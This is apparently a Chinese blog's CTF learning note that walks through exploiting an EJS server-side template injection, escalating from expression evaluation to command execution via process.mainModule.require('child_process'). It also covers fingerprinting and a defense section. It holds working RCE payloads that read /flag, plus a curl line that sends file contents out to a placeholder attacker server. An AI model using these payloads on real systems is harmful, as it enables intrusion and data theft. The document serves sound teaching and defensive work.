


> **CTF Web 学习笔记**（共 19 篇）　[📖 系列总览](/posts/ctf-learning/00-overview/)　·　[← 10 文件上传](/posts/ctf-learning/10-file-upload/)　·　[99 工具箱总入口 →](/posts/ctf-learning/99-0-toolbox/)



> **一句话**：一个"站内搜索"页面把用户输入**直接拼进了 EJS 模板**，于是在搜索框里写 `<%= 7*7 %>`，服务器把它算成了 `49` —— 从"表达式求值"一路升级到"执行系统命令读文件"。

| 项目 | 内容 |
|---|---|
| 类型 | 服务端模板注入（SSTI, Server-Side Template Injection）→ 远程代码执行 |
| 难度 | ★★★ |
| 前置知识 | 知道什么是"模板引擎"；知道 Node.js 里 `require` 是干什么的 |
| 关键 payload | `<%= 7*7 %>` |
| 一句话考点 | **服务器把用户的输入，当成了"模板代码"而不是"数据"** |

> **关于证据等级**（本笔记全篇统一约定）：
> - 标注「**实测**」= 在靶机上证过、并贴了真实回显
> - 标注「**示意代码**」= 同类漏洞的典型写法，**不是本题源码**（本题源码未获取）
> - 标注「**未核实**」= 语法上成立，但没有现场验证过

---

## ① 一眼看懂

打开 `http://docker.qingcen.net:38593/`（靶机已回收，端口会变），是一个"站内搜索"页面：

```
┌────────────────────────────────────────┐
│              站内搜索                    │
│  ┌──────────────────────┐  ┌────────┐  │
│  │ 输入关键词搜索        │  │  搜索   │  │
│  └──────────────────────┘  └────────┘  │
│  ┌────────────────────────────────────┐│
│  │ 约 55 条结果                        ││
│  │ [全部] [文档] [图片]                ││
│  │ 帮助中心 - 使用指南                  ││
│  │ 常见问题 FAQ                        ││
│  │ ...（十条写死的结果）                ││
│  │ ─────────────────────              ││
│  │ 智能摘要                            ││
│  │    ← 你输入的东西出现在这里          ││
│  └────────────────────────────────────┘│
└────────────────────────────────────────┘
```

从响应头能直接读到后端身份 —— **实测**：

```
X-Powered-By: Express
```

**Express 是 Node.js 的 Web 框架。** 这一条头信息把技术栈锁定到 **Node 生态**。

⚠️ 但请注意：**它只能说明"用了 Express"，不能确定模板引擎是哪一个** —— Express 可以配 EJS、Pug、Handlebars、Nunjucks 等多种引擎。引擎身份要靠后面的**回显指纹**去验，不能靠这一个响应头下结论。

### 关键：输入被放进了哪里

用 `ZZMARK123` 搜一下，看返回的 HTML 源码 —— **实测**：

```html
<h3 class="result-area-title">智能摘要</h3>
<div class="result-area">
    ZZMARK123
    </div>
```

**你那串字，被原原本本放进了 `<div class="result-area">` 里面。**

再注意两点：

1. **结果列表是写死的**（`/help`、`/faq`、`/about`、`/terms`、`/privacy`、`/download`、`/login`、`/sitemap`、`/contact`、`/changelog` 十条假数据），**跟关键词无关** —— 说明这是个假搜索，真正的功能只有那个「智能摘要」
2. 「智能摘要」这个词本身就是提示：**摘要要用某种方式"生成"出来**，而生成的方式就是漏洞所在

### 漏洞出在哪

后端大概是这么干的（⚠️ **示意代码，非本题源码**）：

```javascript
// ❌ 有漏洞的写法：把用户输入拼进了【模板本身】
const html = ejs.render(`<div class="result-area">${req.query.text}</div>`);
res.send(html);
```

而**安全的写法**应该是（⚠️ 示意）：

```javascript
// ✅ 安全：用户输入是【数据】，通过变量传进去
res.render('page', { summary: req.query.text });
// 模板文件 page.ejs 里写死的：
//   <div class="result-area"><%= summary %></div>
```

**区别只有一句话**：

| | 用户输入站在哪一侧 | 结果 |
|---|---|---|
| 有漏洞 | **模板这一侧**（被编译执行） | 你能写代码 |
| 安全 | **数据这一侧**（只是被填进去的值） | 你只能写字 |

**这就是 SSTI 的全部本质。**

### 为什么这比 XSS 严重得多

第一眼看上去，"输入被原样放进 HTML"很像 XSS。但两者根本不是一回事：

| | **XSS** | **SSTI（本题）** |
|---|---|---|
| 谁执行了你的输入 | 访问页面的**浏览器** | 这台**服务器** |
| 打的是谁 | 管理员 / 其他用户 | **服务器自己** |
| 最终能拿到 | Cookie、会话 | **取决于运行时、沙箱与进程权限**（本题实测到命令执行 + 读文件） |
| 本题有没有 XSS 的用武之地 | ❌ 没有"让管理员来看"的入口 | ✅ 能直接读 flag |

> **判断顺序应该是**：先问"**flag 在哪**" → 再问"**谁有权访问它**" → 最后才决定"我要打浏览器还是打服务器"。
> 这题没有举报/反馈入口，flag 又在服务器文件系统里 → **只能走 SSTI**。

---

## ② 思路图



---

## ③ 动手步骤

> **操作技巧（很重要）**：payload 很长时**不要往浏览器地址栏里敲** —— 特殊字符容易出错。
> **直接粘进页面上的搜索框，点「搜索」**，浏览器会自动帮你做 URL 编码。这道题全程用的都是这个方法。

### 第 1 步：确认输入回显在哪个位置

搜索框里填：

```
ZZMARK123
```

点搜索，右键 → 查看网页源代码，搜 `ZZMARK123`。

**实测结果**：

```html
<h3 class="result-area-title">智能摘要</h3>
<div class="result-area">
    ZZMARK123
    </div>
```

**结论**：输入落在 `div.result-area` 里。**这就是注入点。**

顺便确认一下响应头（F12 → Network → 点第一条请求 → Headers）：

```
X-Powered-By: Express
```

→ **后端是 Node.js。**

### 第 2 步：测「浏览器」会不会执行我的输入

搜索框里填：

```
<b>hello</b>
```

**实测结果**：「智能摘要」区显示**加粗的 hello**（尖括号消失，hello 变粗）。

**这一步说明什么**：

输入**以未转义的 HTML 形式到达了浏览器**，所以浏览器把 `<b>` 当成了"开始加粗"的**命令**而不是三个普通字符。

（说得更严谨一点：这一步只证明「**客户端会执行我的输入**」。至于它是服务端拼接、还是别的原因造成的 —— 这一步还看不出来，所以才有下一步。）

> ⚠️ 但请注意：**这只证明"浏览器肯执行"，还没证明"服务器肯执行"。** 两者是完全不同的两件事 —— 前者是 XSS，后者才是 SSTI。所以先别急着下结论，下一步才是分水岭。

### 第 3 步：测「服务器」会不会执行我的输入 —— 转折点

给它出一道**纯算术题**。搜索框里填：

```
{{7*7}}
```

**实测结果**：原样输出 `{{7*7}}`，**没有变成 49**。

**这一步也不是白做的 —— 它的"没反应"本身就是一个指纹**：

| 引擎 | 对 `{{7*7}}` 的反应 | 是否符合实测 |
|---|---|---|
| Jinja2 / Twig / Nunjucks | 输出 `49` | ❌ |
| Handlebars | 输出**空白**（把它当变量名去找了）或报错 | ❌ |
| **EJS** | **原样输出**（它只扫描 `<% %>`，其余全当普通文字） | ✅ **符合** |

再换 EJS 的语法试。搜索框里填：

```
<%= 7*7 %>
```

**实测结果**：「智能摘要」区显示 **`49`**。

> 🎯 **这就是整道题的转折点。**
> `49` 这个数字本身毫无价值，值钱的是它证明的事 —— **服务器把我的输入，当成 JavaScript 代码在执行了。**

**为什么必须先试 `{{ }}` 再试 `<%= %>`**：不先确认前者"没反应"，就无法排除别的引擎。

两条结果合起来，只能说明「**当前行为符合 EJS 的语法特征**」。⚠️ 本题没有源码，**不能写成"唯一证明就是 EJS"** —— 别的引擎或自定义渲染逻辑也可能产生同样的回显。指纹识别给的是概率，不是判决书。

### 第 4 步：确认能碰到 Node 的底层对象

搜索框里填：

```
<%= process.version %>
```

**实测结果**：`v20.20.0`

**这一步的价值**：

- `process` 是 Node 的**全局对象**，代表"这个进程自己"
- 能读到它 = 我们的表达式**可以访问 Node 运行时的对象**
- `v20.20.0` 这个版本号也有用：**不同 Node 版本可用的"升级路径"不一样**

⚠️ **但这一步不能证明"没有沙箱"** —— 有些沙箱会故意暴露一部分 `process` 属性。**到底能不能执行命令，必须靠下一步实测，不能靠推断。**

### 第 5 步：从「能看」升级到「能做」

到这一步我们只能**读变量**，还不能**执行命令**。差的是 `require`（Node 用来加载工具库的函数）。

**这里有个坑，直接写会失败**：

```
<%= require('child_process').execSync('ls -la /').toString() %>
```

原因是 **EJS 编译出来的函数是 `new Function()` 造的，只能看见全局作用域，而 `require` 住在模块作用域里 —— 够不到。**

所以要**绕一道路**：先从全局的 `process` 出发，摸回"主模块对象"，再从它身上拿 `require`：

```
process  →  .mainModule  →  .require  →  require('child_process')
```

搜索框里填（**这是本题最长的一条 payload**）：

```
<%= process.mainModule.require('child_process').execSync('ls -la /').toString() %>
```

**实测结果**：成功返回根目录列表（见下一步）。

### 第 6 步：侦察 + 读 flag

**实测**：`ls -la /` 的返回内容（节选）：

```
drwxr-xr-x    1 root     root          4096 Sep 22 02:43 .
-rwxr-xr-x    1 root     root             0 Sep 22 02:43 .dockerenv
drwxr-xr-x    1 root     root          4096 Mar 16  2026 app
-rw-r-----    1 appuser  appuser         43 Sep 22 02:43 flag      ← 目标
-rwxr-xr-x    1 appuser  appuser        135 Feb 10  2026 init.sh
```

**`.dockerenv` 是 Docker 容器的常见线索**（`/flag` 放在根目录也是 CTF 容器的常见布局）。严格说，单独这一个文件不算绝对证明，但结合目录布局已足以判断当前环境。

**读懂 `flag` 那行，判断"我能不能读"**：

```
-  rw-  r--  ---   1  appuser  appuser   43   flag
│   │    │    │      │     │        │
│   │    │    │      │     │        └─ 属组：appuser
│   │    │    │      │     └────────── 属主：appuser
│   │    │    │      └──────────────── 链接数
│   │    │    └─────────────────────── 其他人：无任何权限 (---)
│   │    └──────────────────────────── 属组：只读 (r--)
│   └───────────────────────────────── 属主：读写 (rw-)
└───────────────────────────────────── 类型：普通文件
```

权限是 `640` —— **只有属主 `appuser` 和同组用户能读**。所以能不能读成功，取决于我们的 Node 进程是以哪个用户跑的。

（`init.sh` 也是 `appuser` 的，说明这个容器就是按 `appuser` 身份跑应用 —— 大概率能直接读。）

读取：

```
<%= process.mainModule.require('child_process').execSync('cat /flag').toString() %>
```

**结果**：flag 已成功获取（原文未留档）。

> 💡 **如果没有回显怎么办**（这题有回显，但换个题可能没有）：
> | 手法 | 做法 |
> |---|---|
> | **时间盲注** | `execSync('sleep 5')` —— 页面卡 5 秒就说明命令执行了 |
> | **带外通道** | 让服务器主动把数据发到你的机器（完整写法见下方代码块） |
> | **写文件** | `execSync('cp /flag /app/public/f.txt')` —— 之后再从 Web 访问 |

**带外通道的完整写法**（注意管道符要**原样**写进 shell，不要写成转义形式）：

```javascript
execSync('curl http://你的服务器/$(cat /flag | base64)')
```

### 本题的坑与经验

| 坑 | 现象 | 对策 |
|---|---|---|
| **payload 太长，地址栏容易出错** | 手敲 URL 时 `%`、`'`、空格 被浏览器改写 | **粘进搜索框，让表单自动编码**（本题全程用这招） |
| `require is not defined` | 直接写 `require(...)` 报错 | 走 `process.mainModule.require` |
| `{{7*7}}` 没反应就放弃 | 以为"没有 SSTI" | 换语法再试 —— **"没反应"也是一种指纹** |
| 看到回显就喊 XSS | 打错方向 | 先问"flag 在哪、谁能读" |

---

## ④ 原理拆解

漏洞根子不在「没过滤」，而在后端把用户输入当成了模板源码。**模板引擎**是把「骨架＋数据」拼成网页的工具，EJS 是 Express 常用的一种：它把模板**编译成一个 JavaScript 函数**运行，模板里的 `<%= ... %>` 会被拼进函数体、当作 JS 执行。编译结果大致如下（示意，非本题源码）：

```js
var __output = "";
function __append(s) { if (s != null) __output += s; }
with (locals || {}) {
  __append( 用户输入被拼在这里 );
}
return __output;
```

用户输入落在第四行 `__append()` 的求值位置：进入模板后，「数据」就成了「代码」，数据与代码的边界随之消失，服务端模板注入由此成立。

为什么 `{{7*7}}` 原样输出、`<%= 7*7 %>` 却算出 49？每种引擎只扫描自己的**定界符**（起止标记）：EJS 只认 `<% %>`，`{{ }}` 只是普通字符，照抄进输出，这正锁定了 EJS。

为什么必须绕 `process.mainModule.require`？它由 `new Function()` 创建，只能访问**全局作用域**（变量可见的范围）；`require` 属模块私有而非全局，直接写会报 `require is not defined`；`process` 是 Node **全局对象**（全局可达）。于是沿 `process` → `.mainModule`（主模块）→ `.require`（模块方法）拿到加载器，加载 `child_process` 执行命令。

这类漏洞有多严重，取决于两点：**引擎跑在什么运行时、给模板留多大空间**。本题背后是 Node 全局，文件与进程都在射程内，属命令执行级；若引擎被关进沙箱、只能读写数据，危害止于泄露。

---

## ⑤ 延伸与防御

### A. 真实世界对应

这是**服务端模板注入（SSTI）**，归入 OWASP Top 10:2021 的 **A03「注入」**，对应 **CWE-1336「模板引擎中特殊元素处理不当」**（Improper Neutralization of Special Elements Used in a Template Engine）。

本题实测已达到命令执行；因为没有源码，**不能断言具体实现**。

### B. 同类题变形

以下是授权靶场中的迁移思路，**非本题实测**：

1. **换引擎**：攻击方用无害表达式及报错区分 Jinja2、Twig、FreeMarker、Pug，再核对版本与对象暴露；防守方固定模板来源，禁止用户内容参与编译。
2. **关键字过滤**：攻击方检查编码、属性访问等价写法是否绕过黑名单；防守方修复数据与代码混用，**不能只封禁 `process`**（黑名单不是安全边界）。
3. **无回显**：攻击方用可控日志或低影响时间差验证，并排除网络抖动；防守方限制出站访问、限制执行时间并监控异常 —— **隐藏报错不是修复**。
4. **二次渲染**：攻击方追踪输入入库后，是否被"预览 / 邮件模板"等功能**重新编译**；防守方确保数据库内容始终作为数据。
5. **模板沙箱**：攻击方核对可达对象与边界，不能因为"有沙箱"就断定只能泄露；防守方更新引擎、缩减暴露对象，并用独立进程隔离。

### C. 防御写法

**应用层**（示意，非本题源码；假设 Express 已配置 EJS）：

```js
// ❌ 错误：输入成了模板源码
res.send(ejs.render(req.query.text));

// ✅ 正确：模板固定，只传字符串数据
app.get('/', (req, res) => {
  const text = typeof req.query.text === 'string' ? req.query.text : '';
  res.render('search', { text });
});
```

固定的 `views/search.ejs`：

```html
<div class="result-area"><%= text %></div>
```

此处输入不会被再次编译，且按 HTML 文本转义；**不要改成不转义的 `<%- text %>`**。

**运行环境层**（示意）：

```dockerfile
# ❌ 错误：服务以 root 运行
USER root
# ✅ 正确：独立、无敏感文件读权限的身份
USER web
```

容器应丢弃 capabilities、启用 `no-new-privileges`、只读根文件系统，不挂载宿主敏感目录。**它们不能替代应用层修复。**

回到本题：`/flag` 为 `640 appuser:appuser`、43 字节 —— 属主及属组可读，其他用户不可读。服务若使用该身份或组，**非 root 仍能读取**；所以生产环境的密钥应移出容器或做隔离授权，只读挂载也**不阻止泄露**。

### D. 上线自查

确认模板来源固定、输入仅作数据、无二次编译、输出按上下文转义；检查依赖更新、服务身份及组权限、秘密挂载、出站限制；**加入"模板标记保持原文"的回归测试**（例如断言输入 `<%= 7*7 %>` 时页面原样显示这串字符）。
